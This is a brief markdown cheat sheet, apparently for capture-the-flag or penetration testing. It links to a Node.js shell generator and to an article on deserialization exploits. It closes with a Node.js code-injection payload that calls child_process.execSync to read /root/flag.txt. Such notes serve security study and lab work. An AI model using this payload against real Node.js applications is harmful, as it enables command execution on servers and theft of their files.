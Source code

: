# NodeJS

[READ](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shell
[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## Deserialization

[desserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## Globals
```javascript
__dirname
__filename
exports
module
require()
```

## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```